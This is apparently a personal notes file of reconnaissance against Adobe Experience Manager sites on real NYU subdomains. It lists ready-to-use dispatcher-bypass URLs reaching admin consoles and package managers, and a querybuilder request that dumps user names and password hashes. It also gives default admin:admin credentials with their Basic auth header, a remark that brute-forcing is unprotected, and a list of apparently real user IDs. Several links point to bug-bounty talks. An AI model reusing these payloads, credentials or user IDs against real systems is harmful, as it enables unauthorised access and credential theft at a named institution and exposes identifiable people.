


# aem-dump
Filled with random notes last edited May 4th 2022, needs cleanup

- [https://github.com/CID15/aem-groovy-console](https://github.com/CID15/aem-groovy-console)

## DefaultGetServlet
- [https://gallatin.nyu.edu/etc.tidy.1.json](https://gallatin.nyu.edu/etc.tidy.1.json)
  - Proxy: password admin

- [https://gallatin.nyu.edu/etc.childrenlist.json](https://gallatin.nyu.edu/etc.childrenlist.json)

[https://www.sce.nyu.edu/libs/granite/core/content/login.html/j_security_check](https://www.sce.nyu.edu/libs/granite/core/content/login.html/j_security_check)

## crx/de
- [https://liberalstudies.nyu.edu/crx/de/index.jsp;%0aa.css](https://liberalstudies.nyu.edu/crx/de/index.jsp;%0aa.css)

[Linkedin XSS Vulnerability - Adobe AEM Dispatcher rules bypass](https://www.youtube.com/watch?v=VwLSUHNhrOw)

## crx
- [https://cas.nyu.edu/crx/explorer/nodetypes/index.jsp;%0a.css](https://cas.nyu.edu/crx/explorer/nodetypes/index.jsp;%0a.css)

## crx/packmgr
- [https://cas.nyu.edu/crx/packmgr/list.jsp;%0aa.css](https://cas.nyu.edu/crx/packmgr/list.jsp;%0aa.css)
- [https://cas.nyu.edu/crx/de/index.jsp;%0aa.css](https://cas.nyu.edu/crx/de/index.jsp;%0aa.css)
- [https://cas.nyu.edu/crx/explorer/browser/index.jsp;%0aa.css](https://cas.nyu.edu/crx/explorer/browser/index.jsp;%0aa.css)
- [https://www.sce.nyu.edu/crx/packmgr/index.jsp;%0aa.css](https://www.sce.nyu.edu/crx/packmgr/index.jsp;%0aa.css)
- [https://gsas.nyu.edu/crx/packmgr/service.jsp;%0aa.css](https://gsas.nyu.edu/crx/packmgr/service.jsp;%0aa.css)
- [https://liberalstudies.nyu.edu/crx/packmgr/service.jsp;%0aa.css](https://liberalstudies.nyu.edu/crx/packmgr/service.jsp;%0aa.css)

## ?debug=layout

- [https://www.sps.nyu.edu/?debug=layout](https://www.sps.nyu.edu/?debug=layout)
- [https://medium.com/@jonathanbouman/reflected-xss-at-philips-com-e48bf8f9cd3c](https://medium.com/@jonathanbouman/reflected-xss-at-philips-com-e48bf8f9cd3c)

[https://www.sce.nyu.edu/libs/granite/core/content/login.html](https://www.sce.nyu.edu/libs/granite/core/content/login.html)

## querybuilder.json
- [https://nyuad.nyu.edu/bin/querybuilder.json.;%0aa.css?type=rep:User&p.hits=selective&p.properties=rep:principalName%2520rep:password&p.limit=100](https://nyuad.nyu.edu/bin/querybuilder.json.;%0aa.css?type=rep:User&p.hits=selective&p.properties=rep:principalName%2520rep:password&p.limit=100)
- [https://www.sps.nyu.edu/bin/querybuilder.json.;%0aa.css?path=/home&.hits=full&p.limit=-1](https://www.sps.nyu.edu/bin/querybuilder.json.;%0aa.css?path=/home&.hits=full&p.limit=-1)

## Presentations
- [https://speakerdeck.com/fransrosen/a-story-of-the-passive-aggressive-sysadmin-of-aem](https://speakerdeck.com/fransrosen/a-story-of-the-passive-aggressive-sysadmin-of-aem)
- [Mikhail Egorov - Hunting bugs in Adobe Experience Manager](https://www.youtube.com/watch?v=BFQ9qQSBH6Y)
- [https://speakerdeck.com/0ang3el/aem-hacker-approaching-adobe-experience-manager-webapps-in-bug-bounty-programs](https://speakerdeck.com/0ang3el/aem-hacker-approaching-adobe-experience-manager-webapps-in-bug-bounty-programs)

## Useful GitHub Links
- [https://github.com/sushantdhopat/AEM-Security/tree/810ab06316ca10e3dffe4c28e954f41f5d1236af/aem](https://github.com/sushantdhopat/AEM-Security/tree/810ab06316ca10e3dffe4c28e954f41f5d1236af/aem)
- aem-shell-scripts
  - [https://github.com/hashimkhan786/aem-shell-scripts/tree/f206226dec674a09c26074c104246849e7d10da3](https://github.com/hashimkhan786/aem-shell-scripts/tree/f206226dec674a09c26074c104246849e7d10da3)
- Curl Commands for CRX Packages / AEM Package / Package Manager
  - [https://github.com/erabhishekdwevedi/aem-code-snippets/blob/2f5c04d0f7df017fb7104b7576555fb971182542/curl-command-for-crx-packages.md](https://github.com/erabhishekdwevedi/aem-code-snippets/blob/2f5c04d0f7df017fb7104b7576555fb971182542/curl-command-for-crx-packages.md)
  - Authorization: Basic YWRtaW46YWRtaW4=
    - admin:admin
  
- [https://medium.com/@SecTech/adobe-experience-manager-exploitation-24bd9eb75ed9](https://medium.com/@SecTech/adobe-experience-manager-exploitation-24bd9eb75ed9)

## Mysterious Login Page
- [https://www.sps.nyu.edu/libs/granite/core/content/login.html](https://www.sps.nyu.edu/libs/granite/core/content/login.html)
- [https://gsas.nyu.edu/content/geometrixx/en/toolbar/account/login.html](https://gsas.nyu.edu/content/geometrixx/en/toolbar/account/login.html)
  
## SPS Filtering out numbers?
- [https://www.sps.nyu.edu/content/.tidy.infinity.json](https://www.sps.nyu.edu/content/.tidy.infinity.json)

## Known Users
- khk201
- mmb19
- sm7281
- cc117
- at3427
- apd3
- kct205

## DefaultGetServlet

### How to grab
- Get node names, start from jcr:root
  - /.1.json
  - /.ext.json
  - /.childrenlist.json
- Or guess node names: /content, /home, /var, /etc
- Dump promps for each child node of jcr:root
  - /content.json or /content.5.json or /content.-1.json

## Example of useful searches
- type=nt:file&nodenames=*.zip
- path=/home&p.hits=full&p.limit=-1
- hasPermission=jcr:write&path=/content
- hasPermission=jcr:addChildNodes&path=/content
- hasPermission=jcr:modifyProperties&path=/content
- p.hits=selective&p.properties=jcr%3alastModifiedBy&property=jcr%3alastModifiedBy&property.operation=unequals&property.value=admin&type=nt%3abase&p.limit=1000
- path=/etc&path.flat=true&p.nodedepth=0
- path=/etc/replication/agents.author&p.hits=full&p.nodedepth=-1

## Brute creds
- AEM supports basic auth, no bruteforce protection!
- LoginStatusServlet: `/system/sling/loginstatus.json`

Why does this work?
- https://gallatin.nyu.edu/jcr:content/.json
- https://gallatin.nyu.edu/content/.json
- https://gallatin.nyu.edu/jcr:mixinTypes/.infinity.json
???
